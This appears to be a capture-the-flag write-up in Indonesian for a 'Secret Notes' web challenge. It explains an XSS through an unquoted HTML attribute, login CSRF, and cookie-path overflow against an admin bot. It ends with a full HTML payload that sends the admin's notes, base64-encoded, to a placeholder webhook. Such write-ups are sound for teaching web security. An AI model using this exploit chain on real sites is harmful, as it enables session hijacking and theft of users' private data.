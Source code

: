 # Secret Notes - XSS & CSRF Exploit

## Tujuan
Eksploitasi untuk memperoleh **secret notes** dari admin bot dengan memanfaatkan **XSS** dan **CSRF**.

### Source Code
#### Setup dan Koneksi MongoDB
```python
@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "POST":
        # Code for registration
        users.insert_one({
            "username": request.form["username"],
            "password": hashpass,
            "name": request.form["name"][:31]  # <== 1
        })
        session["username"] = request.form["username"]
        return redirect(url_for("profile"))
    else:
        flash("Username already exists! Try logging in.")
        return redirect(url_for("register"))

    return render_template("register.html")
```

#### Login
```python
@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        users = mongo.db.users
        login_user = users.find_one({"username": request.form["username"]})

        if login_user:
            if bcrypt.checkpw(request.form["password"].encode("utf-8"), login_user["password"]):
                session["username"] = request.form["username"]
                return redirect(url_for("profile"))  # <== 2

        flash("Invalid username/password combination")
        return redirect(url_for("login"))

    return render_template("login.html")
```

---

## Injection Points Analysis

Perhatikan pada `profile.html`:
```html
<h1>Welcome, {{ username }}!</h1>
<img class="profile" alt={{ name }} src={{ url_for('static', filename='images/user.jpeg') }}></img>
```

Jika kita memasukkan `name` sebagai `\ src/onerror=alert(1)` (22 karakter), maka kita bisa memicu **XSS** karena perbedaan antara `alt="{{ name }}"` dan `alt={{ name }}`.

---

## Admin Bot Code

Admin bot akan mengunjungi halaman yang diberikan:
```javascript
const page = await browser.newPage();
await page.goto(urlToVisit, { waitUntil: 'networkidle2' });
await page.goto(`${CONFIG.APPURL}/login`, { waitUntil: 'networkidle2' });
await page.focus('input[name=username]');
await page.keyboard.type(CONFIG.ADMIN_USERNAME);
await page.focus('input[name=password]');
await page.keyboard.type(CONFIG.ADMIN_PASS);
await page.click('input[type="submit"]');
await sleep(1000);
await page.close();
```

---

### Rencana Eksploitasi

1. **Login dengan CSRF**: Buat halaman dengan hidden form untuk mengirim login request.
2. **XSS untuk Cookie Jar Overflow**: Menimpa session cookie dengan path `/profile`.
3. **Eksploitasi Profile Page Admin**: Ketika admin mengunjungi `/profile`, browser akan mengirim cookie dengan path precedence, sehingga memicu payload XSS yang mengambil notes.

---

### Final Payload
Buat halaman HTML berikut dan host di **GitHub Pages** atau **Cloudflare**.

```html
<html>
<body>
  <form action="https://secret-notes.1nf1n1ty.team/login" method="POST">
    <input type="hidden" name="username" value="<ATTACKER1_USERNAME>" />
    <input type="hidden" name="password" value="<ATTACKER1_PASSWORD>" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    let url = "<WEBHOOKURL>";
    let cookie = "<ATTACKER2_COOKIE>";
    let part2 = 'let data = window.open("/notes");setInterval( function (){ data? window.location = `' + url + '?flag=${btoa(data.document.body.innerHTML)}`:console.log(data)}, 100)';
    window.name = "for (let i = 0; i < 700; i++) {document.cookie = `cookie${i}=${i}; Secure`;} for (let i = 0; i < 700; i++) {document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`;};document.cookie=`session="+cookie+"; path=/profile`;window.name='eval(atob(`" + btoa(part2) + "`))'";
    history.pushState('', '', '/');
    document.forms[0].submit();
  </script>
</body>
</html>
```

---

### Flag
Setelah admin mengunjungi halaman ini, flag akan dikirim ke `WEBHOOK`.

---

Flag: `ironCTF{CSRF_SELFX55_C00ki3_t05s1ng_co0kie_p4th_fL4g}`